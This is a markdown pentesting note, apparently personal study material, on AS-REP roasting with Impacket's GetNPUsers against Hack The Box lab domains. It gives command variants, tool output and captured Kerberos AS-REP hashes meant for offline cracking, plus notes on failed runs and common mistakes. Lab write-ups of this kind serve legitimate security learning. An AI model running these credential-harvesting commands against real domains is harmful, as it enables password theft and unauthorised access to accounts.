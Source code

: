 # AS-REP Roasting with GetNPUsers

- [AS-REP Roasting with GetNPUsers](#as-rep-roasting-with-getnpusers)
- [Goal](#goal)
    - [Cracking Active Directory Passwords with AS-REP Roasting](#cracking-active-directory-passwords-with-as-rep-roasting)
    - [Get TGT key which contains target password NTLM hash](#get-tgt-key-which-contains-target-password-ntlm-hash)
- [TL;DR](#tldr)
- [Works](#works)
    - [E.g. HTB Forest](#eg-htb-forest)
- [Doesn't Works](#doesnt-works)
    - [Error in searchRequest](#error-in-searchrequest)
        - [E.g. HTB Active - Require Auth (successful bind)](#eg-htb-active---require-auth-successful-bind)
- [Common Mistakes](#common-mistakes)
    - [Domain Name without "/" suffix](#domain-name-without--suffix)

# [Goal](#goal-1)
## [Cracking Active Directory Passwords with AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

> ... steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.
> Using anonymous bind you can enumerate LDAP and get a list of valid usernames.
> Then, you may use the GetNPUsers script from the impacket to check which of these usernames has Kerberos pre-authentication disabled.
> This is called AS-REP-Roasting.

## [Get TGT key which contains target password NTLM hash](https://dazzyddos.github.io/posts/TryHackMe-Enterprise-Walkthrough/)
> request target TGT key which contains target password NTLM hash which we can try cracking locally

Box | Domain | IP 
-|-|-
Forest | htb.local | 10.10.10.161
BLACKFIELD | BLACKFIELD.local | 10.10.10.

# TL;DR
```sh
GetNPUsers htb.local/ -request
GetNPUsers htb.local/ -r
GetNPUsers htb.local/ -dc-ip $ip
GetNPUsers htb.local/ -dc-ip $ip -request
GetNPUsers htb.local/ -dc-ip $ip -r
GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
```

# Works
## E.g. HTB Forest
### HTB Forest vulnerable to ASREP, but not with HTB Active
```sh
$ impacket-GetNPUsers htb.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:09:07.367813  2023-08-02 11:47:00.513833  0x410200
```

# Doesn't Works
## Error in searchRequest
### E.g. HTB Active - Require Auth (successful bind)
HTB Active, Multimaster
NOT vulnerable to ASREP ???
```sh
$ impacket-GetNPUsers active.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```

# Common Mistakes
## Domain Name without "/" suffix
```sh
$ impacket-GetNPUsers htb.local  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Domain should be specified!
```

### Examples; HTB Forest
```sh
$ impacket-GetNPUsers htb.local/ -request  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:10:42.227380  2023-08-02 11:47:00.513833  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:282f708038e3d413dcbb692377168a0c$a57ae2b2cd5cd99d5c063f53c3321feef6b6d805cf318cadeb5be31c297541b0cfaa35b0e447eed21def3b6c9f472d64cf381b51429abab7bea41cf769be50aaeed52dcce3e8c5f9c1b6686d62d2ca217ee369c810ad582a046fa5f093fa6f9891daf3e02b6b0c576b9b28fc37c8a615d499c7303497b21873cd9bdc1d01f69d628dd66bdf63cdae985a50f0d6dd30b9ecd59e6fd56610cf2a63bf58920ceff8c28a81c8ec0aedf3e68cee83986c094af2caa38423435923fcfecea279d816b5e601436a7b10e1b966771e7f8cb3cc5f3ada3c375f2c8f2fc1b1a4d658eb28d2307331eb653a
```

### GetNPUsers htb.local/ -dc-ip $ip
```sh
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200
```

### GetNPUsers htb.local/ -dc-ip $ip -request
```sh
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200


$krb5asrep$23$svc-alfresco@HTB.LOCAL:725910cae0bc4d7afa0f322cf48c22ec$ea47da97143367e99e1f1ace94bef5f4b7d21f23e9496c27e51ae0cb498996b9581cc8fbcbe7ab10db77fbf3da7d27364f9ce868c64eed607c33df0b4d24a0e731fa9dce764e38c6dabaa9103c511771888f02e3c4e1e7bff80a245d78a4dd8e7c8dcf2e1c63e2c55932648bc09000f2e0227c5295d11845f6b0c5471e3246fa2d1ee3ba80f63eb0eef5b10067bfd1ec12f3a2dec5ada44bda4e5402bc3e25d8118e875def2b0798100065ca43f01f2823c758d0943bb54e5c8d20260b2cd4dedce4e8a4558eabee260f1008f33801e9e3bb8802c24065296c42c2c654e662450a05806dc400

C:\Tools\impacket-master\examples>
```

### Not all user
```sh
$ GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:f764e18d4bf1c000c1caba2c30a836e6$1fd948cf3592f7da94563cde9ffb2d7363c280284c1226c91a7cfa6bfeb8226fe8f2dfe2443d071e732d5cd25de24dd02024d1575b4db0353d8cbe54dcd5ca241f1a643462adaf97184522f0b2fd05fa6d19ce521b49d0a314a56f274e623caf478a7f0228eb9e5fc74bcdb98f4eaf567d4d28cfeb09dbe3291e5c5503cfd5738e9febd987cdff89d27fd2d0074eb9dc21d3fc42882b73c0b4873d8064c524e8d8f9ec57747c30deaa4a17b892d8905146c95f7429f72640ba6c179477c110ca5ca3396f6b7ed3ec77cc9de8de09435fe97e444dce3d9fc7310b6743809bf7b7193a90c45749b07fc4b3f8bc8ae9d39b41ebe7e3

"audit2020" and "svc_backup" are valid users. However, "UF_DONT_REQUIRE_PREAUTH" flag is not set for users "audit2020" and "svc_backup" so we can't get krb5asrep hash from them.

"UF_DONT_REQUIRE_PREAUTH" flag tells the Kerberos server not to require pre-authentication for the user. Without this flag set, the server will always require pre-authentication, which includes sending a krb5asrep message.
```